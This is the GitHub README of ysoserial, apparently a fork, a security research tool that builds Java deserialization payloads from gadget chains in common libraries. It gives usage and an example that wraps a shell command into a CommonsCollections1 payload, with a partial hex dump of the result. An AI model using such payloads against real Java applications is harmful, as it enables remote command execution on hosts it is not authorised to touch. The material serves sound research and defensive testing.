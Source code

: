 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[programe]' '[option]' '[command to execute]'
	Available payload types:
		CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Jdk7u21 []
		Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar target/ysoserial-0.0.4-all.jar CommonsCollections1 'bin/sh' '-c' 'echo "hatoan security" > /tmp/xxx.x' | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
0000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
0000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
0000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469  luest..Ljava/uti
0000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011  l/Map;L..typet..
...
0000460: 7100 7e00 1675 7100 7e00 1b00 0000 0175  q.~..uq.~......u
0000470: 7200 135b 4c6a 6176 612e 6c61 6e67 2e53  r..[Ljava.lang.S
0000480: 7472 696e 673b add2 56e7 e91d 7b47 0200  tring;..V...{G..
0000490: 0078 7000 0000 0374 0006 6269 6e2f 7368  .xp....t..bin/sh
00004a0: 7400 022d 6374 0023 6563 686f 2022 6861  t..-ct.#echo "ha
00004b0: 746f 616e 2073 6563 7572 6974 7922 203e  toan security" >
00004c0: 202f 746d 702f 7878 782e 7874 0004 6578   /tmp/xxx.xt..ex
...
0000570: 3f40 0000 0000 000c 7708 0000 0010 0000  ?@......w.......
0000580: 0000 7878 7672 0012 6a61 7661 2e6c 616e  ..xxvr..java.lan
0000590: 672e 4f76 6572 7269 6465 0000 0000 0000  g.Override......
00005a0: 0000 0000 0078 7071 007e 003e            .....xpq.~.>
```

## Installation

1. Download the latest jar from the "releases" section.


### Building

1. Requires Java 1.7+ and Maven 3.x+
2. mvn clean package -DskipTests

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
